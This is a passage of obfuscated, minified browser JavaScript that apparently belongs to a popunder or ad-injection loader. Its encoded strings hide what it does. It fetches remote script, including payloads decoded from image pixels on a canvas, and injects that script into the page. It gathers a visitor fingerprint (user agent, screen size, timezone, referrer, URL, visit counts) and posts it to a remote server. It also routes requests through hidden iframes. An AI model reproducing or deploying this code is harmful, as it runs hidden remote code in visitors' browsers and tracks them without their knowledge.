e=n&&n[$.DI]&&n[$.DI][$.bI],t=n&&n[$.DI]&&n[$.DI][$.bJ],r=n&&n[$.DI]&&n[$.DI][$.c],o=n&&n[$.DI]&&n[$.DI][$.ba],u=n&&n[$.DI]&&n[$.DI][$.Ii],i=n&&n[$.DI]&&n[$.DI][$.bb],c=n&&n[$.DI]&&n[$.DI][$.bc],a=n&&n[$.DI]&&n[$.DI][$.bd],f=a===d.e||a===d.a,s=$.$();u!==v&&u!==w||(t===p?(s[$.bJ]=h,s[$.cv]=d.y,s[$.bd]=d.e,s[$.cw]=d.a):t!==m||!i||a&&!f||(s[$.bJ]=_,s[$.bb]=i,($.z,l.Rn)(e,c,o,r)[$.aw](function(n){var t=$.$();t[$.bJ]=b,t[$.bI]=e,t[$.bb]=i,t[$.DI]=n,y(u,t);})[$.dv](function(n){var t=$.$();t[$.bJ]=g,t[$.bI]=e,t[$.bb]=i,t[$.DG]=n&&n[$.GF],y(u,t);})),s[$.bJ]&&y(u,s));}function y(n,t){switch(t[$.Ii]=n){case w:o[$.Ig](t);break;case v:default:r[$.Ig](t);}window[$.Ig](t,$.Jc);}},function(n,t,e){$.Bv;Object[$.BE](t,$.Bm,$.$($.Hv,!$.z));var h=$.Ew==typeof Symbol&&$.Jd==typeof Symbol[$.JH]?function(n){return typeof n;}:function(n){return n&&$.Ew==typeof Symbol&&n[$.eb]===Symbol&&n!==Symbol[$.Bj]?$.Jd:typeof n;};t.Bn=function(n,i){return new f[$.Bp](function(r,o){var u=document[$.A](m.at);u[$.bn]=n,u[$.bf]=m.ft,u[$.bJ]=m.lt,u[$.bo]=m.st,document[$.Js][$.cB](u,document[$.Js][$.da]),u[$.bp]=function(){try{var n=(t=u[$.bn],((e=Array[$.Bj][$.Ba][$.Bb](document[$.ed])[$.Ja](function(n){return n[$.bn]===t;})[$.Jv]()[$.en])[$.z][$.eo][$.eq]($.er)?e[$.z][$.l][$.ev]:e[$.Bd][$.l][$.ev])[$.Ba]($.Be,-$.Be));u[$.Jt][$.ap](u),i===_.ht?r(b(n)):r(g(n));}catch(n){o();}var t,e;},u[$.GG]=function(){u[$.Jt][$.ap](u),o();};});},t.zn=function(t,d){return new f[$.Bp](function(s,n){var l=new Image();l[$.bo]=$.bz,l[$.d]=t,l[$.bp]=function(){var n=document[$.A]($.di);n[$.p]=l[$.p],n[$.q]=l[$.q];var t=n[$.dd]($.dj);t[$.dD](l,$.z,$.z);for(var e=t[$.de]($.z,$.z,l[$.p],l[$.q]),r=e[$.DI],o=r[$.Ba]($.z,$.Fl)[$.Ja](function(n,t){return(t+$.Be)%$.By;})[$.ej]()[$.ch](function(n,t,e){return n+t*Math[$.dx]($.em,e);},$.z),u=[],i=$.Fl;i<r[$.GJ];i++)if((i+$.Be)%$.By){var c=r[i];(d===_.ht||$.FJ<=c)&&u[$.Jo](String[$.Di](c));}var a=btoa(u[$.Je]($.BC)[$.dz]($.z,o)),f=d===_.ht?b(a):g(a);return s(f);},l[$.GG]=function(){return n();};});},t.qn=function(o,u){var i=$.Bd<arguments[$.GJ]&&void $.z!==arguments[$.Bd]?arguments[$.Bd]:_.pt,c=$.Bx<arguments[$.GJ]&&void $.z!==arguments[$.Bx]?arguments[$.Bx]:_.Nn,a=$.By<arguments[$.GJ]&&void $.z!==arguments[$.By]?arguments[$.By]:$.$();return new f[$.Bp](function(t,e){var r=new XMLHttpRequest();if(r[$.ab](c,o),r[$.bc]=i,r[$.bq]=!$.z,r[$.bl](_.dt,btoa(encodeURI(u))),r[$.bp]=function(){var n=$.$();n[$.dH]=r[$.dH],n[$.Cb]=i===_.pt?JSON[$.eC](r[$.Cb]):r[$.Cb],$.z<=[$.dI,$.dJ][$.JI](r[$.dH])?t(n):e(new Error($.dn+r[$.dH]+$.cC+r[$.eD]+$.eI+u));},r[$.GG]=function(){e(new Error($.dn+r[$.dH]+$.cC+r[$.eD]+$.eI+u));},c===_.mt){var n=$.dA===(void $.z===a?$.Bw:h(a))?JSON[$.eC](a):a;r[$.bl](_.vt,_.wt),r[$.ce](n);}else r[$.ce]();});},t.Un=function(t,d){var v=$.Bd<arguments[$.GJ]&&void $.z!==arguments[$.Bd]?arguments[$.Bd]:_.pt,w=$.Bx<arguments[$.GJ]&&void $.z!==arguments[$.Bx]?arguments[$.Bx]:_.Nn,p=$.By<arguments[$.GJ]&&void $.z!==arguments[$.By]?arguments[$.By]:$.$();return new f[$.Bp](function(u,i){var c=($.z,o.Z)(t),a=($.z,o.$)(),f=!$.Be,s=void $.z,l=function(){try{a[$.Jt][$.ap](a),window[$.C]($.GF,n),f||i(new Error($.dg));}catch(n){}};function n(n){var t=Object[$.Jb](n[$.DI])[$.Jv]();if(t===c)if(null===n[$.DI][t]){var e=$.$();e[t]=$.$($.eG,$.eH,$.bI,btoa(encodeURI(d)),$.ba,w,$.c,$.dA===(void $.z===p?$.Bw:h(p))?JSON[$.eC](p):p),w===_.mt&&(e[t][$.eh]=JSON[$.eC]($.$($.Cc,_.wt))),a[$.t][$.Ig](e,$.Jc);}else{f=!$.z,l(),clearTimeout(s);var r=$.$(),o=JSON[$.es](atob(n[$.DI][t]));r[$.dH]=o[$.et],r[$.Cb]=v===_.ht?b(o[$.c]):g(o[$.c]),$.z<=[$.dI,$.dJ][$.JI](r[$.dH])?u(r):i(new Error($.dn+r[$.dH]+$.eI+d));}}window[$.B]($.GF,n),a[$.d]=t,document[$.c][$.n](a),s=setTimeout(l,m.Ln);});};var r,m=e($.Fn),_=e($.FI),o=e($.Bx),u=e($.Fu),f=(r=u)&&r[$.Bm]?r:$.$($.Bp,r);function g(n){return decodeURIComponent(atob(n)[$.Ju]($.BC)[$.JJ](function(n){return $.ca+($.Hh+n[$.ad]($.z)[$.BD]($.dw))[$.Ba](-$.Bd);})[$.Je]($.BC));}function b(n){var e=atob(n),t=new ArrayBuffer(e[$.GJ]);return new Uint8Array(t)[$.JJ](function(n,t){return e[$.ad](t);});}},function(n,t,e){(function(u){!function(s,l){function d(n,t){return(typeof t)[$.z]==n;}function v(a,f){return(f=function e(r,o,u,i,c,n){if(i=e.q,r!=d)return v(function(n,t){i[$.Jo]($.$($.HH,this,$.ec,n,$.HF,t,$.Be,r,$.z,o));});if(u&&d(s,u)|d(l,u))try{c=u[$.aw];}catch(n){o=$.z,u=n;}if(d(s,c))try{c[$.Bb](u,t($.Be),o=t($.z));}catch(n){o(n);}else for(f=function(e,n){return d(s,e=o?e:n)?v(function(n,t){w(this,n,t,u,e);}):a;},n=$.z;n<i[$.GJ];)c=i[n++],d(s,r=c[o])?w(c.p,c.r,c.j,u,r):(o?c.r:c.j)(u);function t(t){return function(n){c&&(c=$.z,e(d,t,n));};}}).q=[],a[$.Bb](a=$.$($.aw,function(n,t){return f(n,t);},$.dv,function(n){return f($.z,n);}),function(n){f(d,$.Be,n);},function(n){f(d,$.z,n);}),a;}function w(n,t,e,r,o){u(function(){try{r=o(r),o=r&&d(l,r)|d(s,r)&&r[$.aw],d(s,o)?r==n?e(TypeError()):o[$.Bb](r,t,e):t(r);}catch(n){e(n);}});}function i(t){return v(function(n){n(t);});}(n[$.BF]=v)[$.bC]=i,v[$.aD]=function(e){return v(function(n,t){t(e);});},v[$.aE]=function(n){return v(function(e,r,o,u){u=[],o=n[$.GJ]||e(u),n[$.JJ](function(n,t){i(n)[$.aw](function(n){u[t]=n,--o||e(u);},r);});});},v[$.aF]=function(n){return v(function(t,e){n[$.JJ](function(n){i(n)[$.aw](t,e);});});};}($.Cf,$.fF);}[$.Bb](t,e($.fG)[$.JC]));},function(n,o,u){(function(n){var t=void $.z!==n&&n||$.Bw!=typeof self&&self||window,e=Function[$.Bj][$.Bn];function r(n,t){this[$.Jz]=n,this[$.aA]=t;}o[$.Iw]=function(){return new r(e[$.Bb](setTimeout,t,arguments),clearTimeout);},o[$.Ix]=function(){return new r(e[$.Bb](setInterval,t,arguments),clearInterval);},o[$.Iy]=o[$.Jw]=function(n){n&&n[$.Jj]();},r[$.Bj][$.Ji]=r[$.Bj][$.au]=function(){},r[$.Bj][$.Jj]=function(){this[$.aA][$.Bb](t,this[$.Jz]);},o[$.Iz]=function(n,t){clearTimeout(n[$.bE]),n[$.av]=t;},o[$.JA]=function(n){clearTimeout(n[$.bE]),n[$.av]=-$.Be;},o[$.JB]=o[$.Jx]=function(n){clearTimeout(n[$.bE]);var t=n[$.av];$.z<=t&&(n[$.bE]=setTimeout(function(){n[$.du]&&n[$.du]();},t));},u($.Ij),o[$.JC]=$.Bw!=typeof self&&self[$.JC]||void $.z!==n&&n[$.JC]||this&&this[$.JC],o[$.JD]=$.Bw!=typeof self&&self[$.JD]||void $.z!==n&&n[$.JD]||this&&this[$.JD];}[$.Bb](o,u($.dw)));},function(n,t,e){(function(n,w){!function(e,r){$.Bv;if(!e[$.JC]){var o,u,t,i,n,c=$.Be,a=$.$(),f=!$.Be,s=e[$.u],l=Object[$.bm]&&Object[$.bm](e);l=l&&l[$.Iw]?l:e,$.az===$.$()[$.BD][$.Bb](e[$.cr])?o=function(n){w[$.Eb](function(){v(n);});}:!function(){if(e[$.Ig]&&!e[$.el]){var n=!$.z,t=e[$.ep];return e[$.ep]=function(){n=!$.Be;},e[$.Ig]($.BC,$.Jc),e[$.ep]=t,n;}}()?e[$.ex]?((t=new MessageChannel())[$.ey][$.ep]=function(n){v(n[$.DI]);},o=function(n){t[$.ez][$.Ig](n);}):s&&$.fD in s[$.A]($.Cl)?(u=s[$.g],o=function(n){var t=s[$.A]($.Cl);t[$.fD]=function(){v(n),t[$.fD]=null,u[$.ap](t),t=null;},u[$.n](t);}):o=function(n){setTimeout(v,$.z,n);}:(i=$.fH+Math[$.BA]()+$.fJ,n=function(n){n[$.fI]===e&&$.fb==typeof n[$.DI]&&$.z===n[$.DI][$.JI](i)&&v(+n[$.DI][$.Ba](i[$.GJ]));},e[$.B]?e[$.B]($.GF,n,!$.Be):e[$.fa]($.ep,n),o=function(n){e[$.Ig](i+n,$.Jc);}),l[$.JC]=function(n){$.Ew!=typeof n&&(n=new Function($.BC+n));for(var t=new Array(arguments[$.GJ]-$.Be),e=$.z;e<t[$.GJ];e++)t[e]=arguments[e+$.Be];var r=$.$($.dF,n,$.dG,t);return a[c]=r,o(c),c++;},l[$.JD]=d;}function d(n){delete a[n];}function v(n){if(f)setTimeout(v,$.z,n);else{var t=a[n];if(t){f=!$.z;try{!function(n){var t=n[$.dF],e=n[$.dG];switch(e[$.GJ]){case $.z:t();break;case $.Be:t(e[$.z]);break;case $.Bd:t(e[$.z],e[$.Be]);break;case $.Bx:t(e[$.z],e[$.Be],e[$.Bd]);break;default:t[$.Bn](r,e);}}(t);}finally{d(n),f=!$.Be;}}}}}($.Bw==typeof self?void $.z===n?this:n:self);}[$.Bb](t,e($.dw),e($.fc)));},function(n,t){var e,r,o=n[$.BF]=$.$();function u(){throw new Error($.Ge);}function i(){throw new Error($.Gf);}function c(t){if(e===setTimeout)return setTimeout(t,$.z);if((e===u||!e)&&setTimeout)return e=setTimeout,setTimeout(t,$.z);try{return e(t,$.z);}catch(n){try{return e[$.Bb](null,t,$.z);}catch(n){return e[$.Bb](this,t,$.z);}}}!function(){try{e=$.Ew==typeof setTimeout?setTimeout:u;}catch(n){e=u;}try{r=$.Ew==typeof clearTimeout?clearTimeout:i;}catch(n){r=i;}}();var a,f=[],s=!$.Be,l=-$.Be;function d(){s&&a&&(s=!$.Be,a[$.GJ]?f=a[$.bF](f):l=-$.Be,f[$.GJ]&&v());}function v(){if(!s){var n=c(d);s=!$.z;for(var t=f[$.GJ];t;){for(a=f,f=[];++l<t;)a&&a[l][$.Gd]();l=-$.Be,t=f[$.GJ];}a=null,s=!$.Be,function(t){if(r===clearTimeout)return clearTimeout(t);if((r===i||!r)&&clearTimeout)return r=clearTimeout,clearTimeout(t);try{r(t);}catch(n){try{return r[$.Bb](null,t);}catch(n){return r[$.Bb](this,t);}}}(n);}}function w(n,t){this[$.It]=n,this[$.Iu]=t;}function p(){}o[$.Eb]=function(n){var t=new Array(arguments[$.GJ]-$.Be);if($.Be<arguments[$.GJ])for(var e=$.Be;e<arguments[$.GJ];e++)t[e-$.Be]=arguments[e];f[$.Jo](new w(n,t)),$.Be!==f[$.GJ]||s||c(v);},w[$.Bj][$.Gd]=function(){this[$.It][$.Bn](null,this[$.Iu]);},o[$.Ec]=$.Ed,o[$.Ed]=!$.z,o[$.Ee]=$.$(),o[$.Ef]=[],o[$.Eg]=$.BC,o[$.Eh]=$.$(),o.on=p,o[$.Ei]=p,o[$.Ej]=p,o[$.Ek]=p,o[$.El]=p,o[$.Em]=p,o[$.En]=p,o[$.Eo]=p,o[$.Ep]=p,o[$.Eq]=function(n){return[];},o[$.Er]=function(n){throw new Error($.Jl);},o[$.Es]=function(){return $.Ih;},o[$.Et]=function(n){throw new Error($.Jm);},o[$.Eu]=function(){return $.z;};},function(n,t,e){$.Bv;Object[$.BE](t,$.Bm,$.$($.Hv,!$.z));var b=function(n,t){if(Array[$.JF](n))return n;if(Symbol[$.JH]in Object(n))return function(n,t){var e=[],r=!$.z,o=!$.Be,u=void $.z;try{for(var i,c=n[Symbol[$.JH]]();!(r=(i=c[$.eJ]())[$.ee])&&(e[$.Jo](i[$.Hv]),!t||e[$.GJ]!==t);r=!$.z);}catch(n){o=!$.z,u=n;}finally{try{!r&&c[$.ew]&&c[$.ew]();}finally{if(o)throw u;}}return e;}(n,t);throw new TypeError($.Iv);};t.Cn=function(n,t){var e=x(n,t),r=b(e,$.Bx),o=r[$.z],u=r[$.Be],i=r[$.Bd],c=parseInt(localStorage[i],$.Fh)||$.z;localStorage[i]=c+$.Be,localStorage[o]=new Date()[$.ao](),localStorage[u]=$.BC;},t.Dn=function(n,t,e){var r=x(n,t),o=b(r,$.Bx),u=o[$.z],i=o[$.Be],c=o[$.Bd];if(localStorage[u]&&!localStorage[i]){var a=parseInt(localStorage[c],$.Fh)||$.z,f=parseInt(localStorage[u],$.Fh),s=new Date()[$.ao](),l=s-f,d=document,v=d[$.cj],w=window[$.bh][$.bn];localStorage[i]=s,localStorage[c]=$.z;var p=$.$($.ci,n,$.cj,v,$.ck,l,$.cl,e,$.cm,s,$.ef,function(){var n=localStorage[O];if(n)return n;var t=Math[$.BA]()[$.BD]($.BG)[$.Ba]($.Bd);return localStorage[O]=t;}(),$.cn,w,$.co,f,$.cp,a,$.dB,navigator[$.cE],$.db,window[$.aH][$.p],$.dc,window[$.aH][$.q],$.ba,t||T,$.dk,new Date()[$.an](),$.do,($.z,y[$.Bp])(e),$.dp,($.z,y[$.Bp])(v),$.dq,($.z,y[$.Bp])(w),$.dr,navigator[$.cJ]||navigator[$.dC]);h=p,m=$.cs+($.z,S.N)()+$.dy,_=Object[$.Jb](h)[$.JJ](function(n){var t=encodeURIComponent(h[n]);return[n,t][$.Je]($.ea);})[$.Je]($.ek),(g=new XMLHttpRequest())[$.ab]($.HC,m,!$.z),g[$.bl](M,j),g[$.ce](_);}var h,m,_,g;};var r,o=e($.Fq),y=(r=o)&&r[$.Bm]?r:$.$($.Bp,r),S=e($.Be);var M=$.Cc,j=$.Cd,O=$.Ce,u=$.Cf,i=$.Cg,c=$.Ch,T=$.Ci,a=$.$();function x(n,t){var e=a[t]||c,r=parseInt(n,$.Fh)[$.BD]($.BG);return[[O,r][$.Je](e),[O,r,u][$.Je](e),[O,r,i][$.Je](e)];}a.Nt=$.Cg,a.Bt=$.Ck,a.Ct=$.HF,a.Dt=$.HG,a.zt=$.HH,a.qt=$.Gp;},function(n,t,e){$.Bv;Object[$.BE](t,$.Bm,$.$($.Hv,!$.z)),t[$.Bp]=function(r,c){var n=r===f.yn?($.z,o[$.Dg])():a.S;return($.z,u.Rn)(n)[$.aw](function(n){return(n=n&&$.Cb in n?n[$.Cb]:n)&&($.z,i.Ut)(a.e,n),n;})[$.dv](function(){return($.z,i.Ht)(a.e);})[$.aw](function(n){var o,u,i,t,e;if(n&&(n=n[$.Bc](new RegExp($.i,$.Bf),(e=$.e+Math[$.BA]()[$.BD]($.BG)[$.Ba]($.Bd),window[e]=atob,e))[$.Bc](new RegExp($.j,$.Bf),(t=$.e+Math[$.BA]()[$.BD]($.BG)[$.Ba]($.Bd),window[t]=decodeURIComponent,t)),o=n,u=r,i=c,new l[$.Bp](function(n,t){var e=document[$.A]($.Cl),r=document[$.f](o);e[$.bp]=i,e[$.n](r),-$.Be<[f.Mn,f.On,f.jn][$.JI](a.y)&&(e[$.fA]($.fB,a.e),e[$.fA]($.fC,($.z,d[$.Bp])(a.S)));try{v[$.Jt][$.cB](e,v);}catch(n){document[$.c][$.n](e);}setTimeout(function(){return e[$.Jt][$.ap](e),($.z,s.wn)(u)?n():t();});})),!($.z,s.wn)(r))throw new Error();return!$.z;});};var a=e($.z),f=e($.FG),o=e($.Be),u=e($.Fh),i=e($.Fv),s=e($.Ff),l=r(e($.Fu)),d=r(e($.Fq));function r(n){return n&&n[$.Bm]?n:$.$($.Bp,n);}var v=document[$.a];},function(n,t,e){$.Bv;Object[$.BE](t,$.Bm,$.$($.Hv,!$.z));var c=function(n,t){if(Array[$.JF](n))return n;if(Symbol[$.JH]in Object(n))return function(n,t){var e=[],r=!$.z,o=!$.Be,u=void $.z;try{for(var i,c=n[Symbol[$.JH]]();!(r=(i=c[$.eJ]())[$.ee])&&(e[$.Jo](i[$.Hv]),!t||e[$.GJ]!==t);r=!$.z);}catch(n){o=!$.z,u=n;}finally{try{!r&&c[$.ew]&&c[$.ew]();}finally{if(o)throw u;}}return e;}(n,t);throw new TypeError($.Iv);};t.Ut=function(n,t){var e=f(n),r=c(e,$.Bd),o=r[$.z],u=r[$.Be];localStorage[o]=$.z,localStorage[u]=t;},t.Ht=function(n){var t=f(n),e=c(t,$.Bd),r=e[$.z],o=e[$.Be],u=parseInt(localStorage[r],$.Fh)||$.z,i=localStorage[o];{if(a<=u)return delete localStorage[r],delete localStorage[o],null;if(!i)return null;}return localStorage[r]=u+$.Be,i;};var r=$.Cj,o=$.Ck,u=$.Ch,a=$.Bx;function f(n){var t=parseInt(n,$.Fh)[$.BD]($.BG);return[[r,t][$.Je](u),[r,t][$.Je](o)];}}]);})((function(j,k){function H(index){return Number(index).toString(36).replace(/[0-9]/g,function(s){return String.fromCharCode(parseInt(s,10)+65);});}var o={$:function(){var o={};for(var i=0;i<arguments.length;i+=2){o[arguments[i]]=arguments[i+1];}return o;}};j=j.split('+');for(var i=0;i<553;i++){(function(I){Object.defineProperty(o,H(I),{get:function(){return j[I][0]!==';'?k(j[I]):parseFloat(j[I].slice(1),10);}});}(i));}return o;}('=6lW:l./MlwlE:+W99./}lE:.bq#:lEl6+6lwo}l./}lE:.bq#:lEl6+*il6tRlMl=:o6+*il6tRlMl=:o6.PMM+9q#ZW:=3./}lE:+=6lW:l.Io=iwlE:.L6W^wlE:+=6lW:l./MlwlE:.gR+^l:./MlwlE:.!t.@9+^l:./MlwlE:#.!t(W^.gWwl+=i66lE:R=6qZ:+6lW9tR:W:l+5o9t+#6=+s+=6lW:l(lB:.go9l+9o=iwlE:./MlwlE:+Ho6./W=3+W:o5+9l=o9lvz.@.XowZoElE:+zl^./BZ+#:tMl+W5oi:.J5MWE~+WZZlE9.X3qM9+Zo#q:qoE+Nq9:3+3lq^3:+9q#ZMWt+oZW=q:t+=oE:lE:&qE9oN+9o=iwlE:+Mo=WMR:o6W^l+W5#oMi:l+._ZB+EoEl+;0+6WE9ow+qH6Wwl++:oR:6qE^+9lHqEl.,6oZl6:t+lBZo6:#+;36+;false+;17+=oEHq^i6W5Ml+#Mq=l+=WMM+6lZMW=l+;2+;1+^+q+M+s9W:W+Z6o:o:tZl+3W#.aNE.,6oZl6:t+W+ssl#.|o9iMl+WZZMt+^l:+9lHWiM:+=MlW6+lEiwl6W5Ml+6lwo}l.@:lw+#l:.@:lw+^l:.@:lw+i#l.*#:6q=:+iE9lHqEl9+;3+;4+;48+;57+;97+;122+3::Z#.J.4.4NNN.)^oo^Ml.)=ow.4HW}q=oE.)q=o+i~3HoBA9o^*+~W3N3wEEq+ZqE^+ZoE^+6l*il#:+6l*il#:sW==lZ:l9+6l*il#:sHWqMl9+6l#ZoE#l+.XoE:lE:.1(tZl+WZZMq=W:qoE.4B.1NNN.1Ho6w.1i6MlE=o9l9.u.*=3W6#l:.Gv(.L.1.x+E6W.x=6.j.Q96^+H+#+i+iE~EoNE+w^95.Qo.[.Q^}+=+#=6qZ:+#=6qZ:#+}lE9o6+qE9lB+S*il6t+Mo9W#3+iE9l6#=o6l+WE^iMW6+6lW=:+#:tMl#+6l#l:+5iE9Ml+5oo:#:6WZ+S*il6t.1iq+Mo^o+qwW^l+56WE9+3lW9l6+q=oE+HW}q=oE+NW6EqE^+l66o6+#:W6+9W:W+=i#:ow+=oEHq^+WSWB+wlEi+W6:q=Ml#+6l#oi6=l#+}WMq9W:o6#+^l:.aE=Mq=~Rl=6l:v6M+:o.X3W6.Xo9l+H6ow.X3W6.Xo9l+^l:.aHH#l:+*il6t+:6W}l6#l.,W6lE:#+iE.!6oW9=W#:.@EHo+q#.boW9l9+6iE.P.P.!+:6t(oZ+^l:.,W6lE:.go9l+Z#iHHqBl#+6WN+;768+;1024+;568+;360+;1080+;736+;900+;864+;812+;667+;800+;240+;300+lE.1vR+lE.1.D.!+lE.1.X.P+lE.1.Pv+#}.1R./+ElB:(q=~+:q:Ml+56oN#l6+lE}+W6^}+}l6#qoE+}l6#qoE#+W99.bq#:lEl6+oE=l+oHH+6lwo}l.bq#:lEl6+6lwo}l.PMM.bq#:lEl6#+lwq:+Z6lZlE9.bq#:lEl6+Z6lZlE9.aE=l.bq#:lEl6+Mq#:lEl6#+5qE9qE^+=N9+=39q6+iwW#~+:.j~9.[.T9.x=^l+HiE=:qoE+.4.4}qW:lZq^WE.)=ow.4WZi.)Z3Z.nAoElq9.G+;60+;120+;480+;180+;720+;18+;19+;7+;8+;27+;14+;32+]3::Z#.n.J+].4.4+].4+;5+;28+;6+;21+;10+;11+WE96oq9+NqE9oN#.*E:+;12+;22+;13+;24+;23+;9+.tMo^op56WE9.A+]5Mo5.J+;25+;15+;34+.aE.XMq=~+.,i#3.*Eo:qHq=W:qoE.*.t.F((.,.A+.,i#3.*Eo:qHq=W:qoE.*.t.F((.,R.A+.,i#3.*Eo:qHq=W:qoE.*.t.Ioi5Ml.*(W^.A+.@E:l6#:q:qWM+.gW:q}l+oE=Mq=~+EW:q}l+Zi#3l6.1iEq}l6#WM+wl##W^l+oEl66o6+.,6owq#l+Z~lt#+MlE^:3+AH^MoW9l9ZoZiZ+A.@E9lB+5W=~^6oiE9.@wW^l+6iE+#l:(qwloi:.*3W#.*Eo:.*5llE.*9lHqEl9+=MlW6(qwloi:.*3W#.*Eo:.*5llE.*9lHqEl9+3::Z#.J.4.4+.U.).x.).j+;10000+AH^Z6oBt3::Z+sss^oo+p+;42+;750+o5Sl=:.V.*qH6Wwl.V.*lw5l9.V.*}q9lo.V.*Wi9qo+B+EoHoMMoN.*Eo6lHHl6l6.*EooZlEl6+woi#l9oNE+woi#liZ+MqE~+#:tMl#3ll:+WEoEtwoi#+:lB:.4=##+(o~lE+WZZMq=W:qoE.4S#oE+S#oE+5Mo5+.D./(+.,.aR(+;1000+;3600000+S+t+Z+.,+.g+.,.4.g+.g.4.,+.,.4.g.4.g+.g.4.,.4.g+.,.4.g.4.,.4.g+.g.4.g.4.g.4.g+.T+.T.T+.T.T.T+.T.T.T.T+.T.T.T.T.T+ElN#+ZW^l#+Nq~q+56oN#l+}qlN+wo}ql+W6:q=Ml+#:W:q=+ZW^l+Nl5+}WMil+;20+.j.O.xB.O.T+.0.m.jB.O.T+.[.0.xB.Q.T+._.0.TB.0.j.T+.m.T.TB.0.U.T+.0.j.TB.j.T.T+9q}+#l=:qoE+EW}+.CW.*36lH.G.#.}#.#.2.C.4W.2+.C9q}.2.CW.*36lH.G.#.}#.#.2.C.4W.2.C.49q}.2+.C#ZWE.2.CW.*36lH.G.#.}#.#.2.C.4W.2.C.4#ZWE.2+;26+;33+.,z.aeks.XRR+.,z.aeks.,.g.D+.,z.aekse.Fz+.,z.aeks.Lz.P.|./+HMoo6+Zo#:.|l##W^l+.4+=3WEElM+;30+=Mq=~+AH^MoW9l9Zi#3ZoZiZ+AH^MoW9l9Zi#3oZ:+AH^MoW9l9qE:l6#:q:qWM+AH^MoW9l9EW:q}l+:l#:+;999999+i6M.t9W:W.JqwW^l.4^qH.u5W#l.O.j.Vz.TM.D.a.IM3.PY.P.!.P.@.P.P.P.P.P.P.P.,.4.4.4t.F.U.!.P./.P.P.P.P.P.b.P.P.P.P.P.P.!.P.P./.P.P.P.@.!z.P.P.[.A+9o=+HiE+W66Wt+.@E}WMq9.*W::lwZ:.*:o.*9l#:6i=:i6l.*EoE.1q:l6W5Ml.*qE#:WE=l+#l:(qwloi:+#l:.@E:l6}WM+=MlW6(qwloi:+lE6oMM+iElE6oMM+siE6lH.P=:q}l+#l:.@wwl9qW:l+=MlW6.@wwl9qW:l+AH^MoW9l9Zi#3+q#.P66Wt+6l:i6E.*:3q#+q:l6W:o6+qE9lB.aH+wWZ+HqM:l6+~lt#+.c+#tw5oM+SoqE+.t7]W.1A.T.1.Q-.p.A+NqE+:oZ+iE6lH+=Mo#l+AH^Ho6wW:#+Z6o=l##.)5qE9qE^.*q#.*Eo:.*#iZZo6:l9+Z6o=l##.)=39q6.*q#.*Eo:.*#iZZo6:l9+#o6:+Zi#3+MlH:+Z~lt+Z#:6qE^+3lW9+ZW6lE:.go9l+#ZMq:+ZoZ+=MlW6.@E:l6}WM+W=:q}l+.P.P.!.*+sq9+s=MlW6.LE+:W^.gWwl+=MoEl.go9l+6lSl=:+WMM+6W=l+.)3:wM+#=6llE+=i66lE:+:W6^l:.@9+^l:.!oiE9qE^.XMqlE:zl=:+oZlE+;500+=3W6.Xo9l.P:+ZW^lk.aHH#l:+ZW^le.aHH#l:+=MqlE:(oZ+=MqlE:.blH:+Ho6wW:+AoEl.@9+#oi6=lKoEl.@9+9owWqE+^lEl6W:qoE(qwl+^l:(qwlAoEl.aHH#l:+^l:(qwl+6lwo}l.X3qM9+WZi.)Z3Z+WHi.)Z3Z+qw^+lB:6W+6lH+sq9Ml(qwloi:+:3lE+=Mo#l9+:3q#+7o5Sl=:.*Z6o=l##-+#=6oMM(oZ+#=6oMM.blH:+6l#oM}l+#=6+sq9Ml(qwloi:.@9+=oE=W:+oHH#l:&q9:3+oHH#l:.Flq^3:+i6M+:tZl+wl:3o9+6l*il#:sq9+6l#ZoE#l(tZl+AoElq9sW95Mo=~+qEEl6.F(.|.b+6lM+lMlwlE:+Mo=W:qoE+oZlEl6+.,.F.,+.8R+#l:zl*il#:.FlW9l6+^l:.,6o:o:tZl.aH+36lH+=6o##.a6q^qE+oEMoW9+Nq:3.X6l9lE:qWM#+ZB+5o::ow+6q^3:+;35+#lMl=:o6+#3qH:+3::Z#.J+.}#+i#l.1=6l9lE:qWM#+HqBl9+qE#l6:.!lHo6l+.*+.)+i#l6.P^lE:+Z6l}lE:.IlHWiM:+#:oZ.,6oZW^W:qoE+#:oZ.@wwl9qW:l.,6oZW^W:qoE+.)S#oE+MWE^iW^l+.}+.)=##.n+.)ZE^.n+HqE9+#lE9+;9999999+;99999999+6l9i=l+AoElq9+6lHl66l6+:qwls9qHH+~:+./:+=i66lE:si6M+.@:+.,:+6lwo}l+Z6o=l##+.4.4+;98+;101+=WMM#q^E+AoElq9so6q^qEWM+;3571+.)S#.n+#oi6#l.Iq}+o5Sl=:+i#l6sW^lE:+i#l6.bWE^iW^l+96WN.@wW^l+=oE:lE:.Io=iwlE:+=WMM5W=~+W6^#+#:W:i#+;200+;204+Hq6#:.X3qM9+#=6llEsNq9:3+#=6llEs3lq^3:+^l:.XoE:lB:+^l:.@wW^l.IW:W+#owl+l66o6.*6l*il#:.*:qwloi:+=MW##.bq#:+=WE}W#+.09+:qwlAoEl+s5MWE~+:o.boNl6.XW#l+l66o6.*.B+z:+6lHl66l6s9owWqE+=i66lE:si6Ms9owWqE+56oN#l6sMWE^+:qwloi:+#Wwlo6q^qE+soE(qwloi:+=W:=3+;16+ZoN+.4l}lE:+#i5#:6qE^+.n+3o#:+#:6qE^qHt+#:W:i#(lB:+.6+^9Z6+:+Zo#:+.B.*N3qMl.*6l*il#:qE^.*+ElB:+.G+=oE#:6i=:o6+6+#:tMlR3ll:#+9oEl+i#l6sq9+5+3lW9l6#+6lMW:q}l+6l}l6#l+.N+qwZo6:R=6qZ:#+;256+=##ziMl#+#lMl=:o6(lB:+oEwl##W^l+qE=Mi9l#+.)Nq9^l:.1=oM.1._.T.1#Z+ZW6#l+#:W:i#s=o9l+:lB:+=oE:lE:+6l:i6E+.|l##W^l.X3WEElM+Zo6:._+Zo6:.0+#l:.P::6q5i:l+9W:W.1AoEl.1q9+9W:W.19owWqE+oE6lW9t#:W:l=3WE^l+:ovZZl6.XW#l+o+;29+#l:.@wwl9qW:l.i+#oi6=l+.i+W::W=3./}lE:+#:6qE^+;31',function(n){for(var r='YzR(vh&ekK7r-]syW5=9lH^3qS~MwEoZ*6#:i}NBtAcpV1)4T_0mjUO[xQJuCG2ndP!XI/LDF@8fb|ga,',t=['.','%','{'],e='',i=1,f=0;f<n.length;f++){var o=r.indexOf(n[f]);t.indexOf(n[f])>-1&&0===t.indexOf(n[f])&&(i=0),o>-1&&(e+=String.fromCharCode(i*r.length+o),i=1);}return e;})),(function(s){var _={};for(k in s){try{_[k]=s[k].bind(s);}catch(e){_[k]=s[k];}}return 